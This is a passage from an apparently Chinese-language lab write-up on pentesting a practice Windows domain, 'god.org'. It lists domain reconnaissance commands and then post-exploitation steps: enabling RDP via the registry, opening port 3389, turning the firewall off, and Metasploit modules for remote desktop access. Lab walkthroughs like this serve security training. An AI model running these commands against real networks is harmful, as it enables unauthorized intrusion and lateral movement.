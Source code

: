 ![image-20240107135109265](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107135109265.png)

也可以执行命令`net config workstation`来查看当前计算机名、全名、用户名、系统版本、工作站、域、登录域等全面的信息

![image-20240107135512647](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107135512647.png)

2、上面发现 DNS 服务器名为 god.org，当前登录域为 GOD 再执行`net view /domain`查看有几个域(可能有多个)

3、查看域的组账户信息(工作组)

![image-20240107135624777](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107135624777.png)

4、既然只有一个域，那就利用 net group "domain controllers" /domain 命令查看域控制器主机名，直接确认域控主机的名称为 OWA

![image-20240107135749468](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107135749468.png)

5、确认域控主机的名称为 OWA 再执行 `net view` 查看局域网内其他主机信息（主机名称、IP地址）

![image-20240107135805023](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107135805023.png)

cs中会更加具体一点（主机ip也有）

![image-20240107135845251](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107135845251.png)

扫描出来 除了域控OWA 之外，还有一台主机ROOT-TVI862UBEH

至此内网域信息收集完毕，已知信息：域控主机：192.168.52.138，同时还存在一台域成员主机：192.168.52.141，接下来的目标就是横向渗透拿下域控

### (4)rdp远程登录win7

Win7跳板机 默认是不开启3389的，同时还有防火墙

```java
#注册表开启3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

#添加防火墙规则
netsh advfirewall firewall add rule name="Open 3389" dir=in action=allow protocol=TCP localport=3389

#关闭防火墙
netsh firewall set opmode disable   			#winsows server 2003 之前
netsh advfirewall set allprofiles state off 	#winsows server 2003 之后
```

或者使用msf中的命令

```java
run getgui -e
run post/windows/manage/enable_rdp  //两个命令都可以开启远程桌面
```

在开启远程桌面之前，我们还需要使用`idletime`命令检查远程用户的空闲时长：idletime

(提示：远程主机和主机，同一时间只会登录一个，所以需要看空闲时长)
